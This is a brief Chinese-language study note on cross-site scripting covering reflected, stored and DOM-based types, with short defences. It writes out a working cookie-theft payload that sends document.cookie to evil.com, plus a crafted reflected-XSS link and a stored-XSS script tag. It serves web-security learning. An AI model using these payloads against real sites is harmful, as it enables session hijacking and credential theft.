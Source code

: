 # Cross-site Scripting  跨站脚本攻击


## 基本原理
简单来说，就是通过 HTML 注入，插入恶意脚本进行攻击。

## XSS 类型
### 反射型 XSS
### 存储型 XSS
### DOM Based XSS

## XSS Payload
用以完成各种具体功能的恶意脚本，被称为 XSS Payload。XSS Payload 实际上就是 JS 脚本，
或者其他 Flash 等富客户端脚本。

### 用于 Cookie 劫持的 Payload
payload 脚本  `http://www.evil.com/payload.js`
```js
var img = document.createElement('img');
img.src = 'http://www.evil.com/log?' + encodeURIComponent(document.cookie);
document.body.appendChild(img);
```
只要上述代码被运行，则 `http://www.evil.com/log` 就可以获取到客户端的 cookie

#### 如果进行反射型 XSS：
假如网站 `www.foo.com` 的搜索功能有 XSS 漏洞，会把用户输入的内容直接添加到 DOM 中。  
1. 伪装以下链接并诱导用户点击：
`http://www.foo.com/search?word=%3cscript+src%3d%22http%3a%2f%2fwww.evil.com%2fpayload.js%22%3e%3c%2fscript%3e`
2. 用户点击后跳转到搜索页面，并加载 `http://www.evil.com/payload.js`
3. 如果当前用户此时在该网站为登录状态且保存了 cookie，则该 cookie 就会被 `payload.js`
发送到 `http://www.evil.com/log`

#### 如果进行存储型 XSS：
假如网站 `www.foo.com` 的论坛有 XSS 漏洞，会将用户发帖中的 HTML 标签直接添加进 DOM 从
而变得可执行。  
1. 直接把 `payload.js` 中的代码放在 `<script>` 标签里作为帖子内容的一部分发出去
```html
<script>
var img = document.createElement('img');
img.src = 'http://www.evil.com/log?' + encodeURIComponent(document.cookie);
document.body.appendChild(img);
</script>
```
2. 只要有用户进入这个帖子，上述脚本就会获取用户的 cookie 并发送


## 防御手段
[Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)

* `HttpOnly`
* 输入检查

## References
* [白帽子讲Web安全](https://book.douban.com/subject/10546925/)
* <a href="https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)">WASP</a>
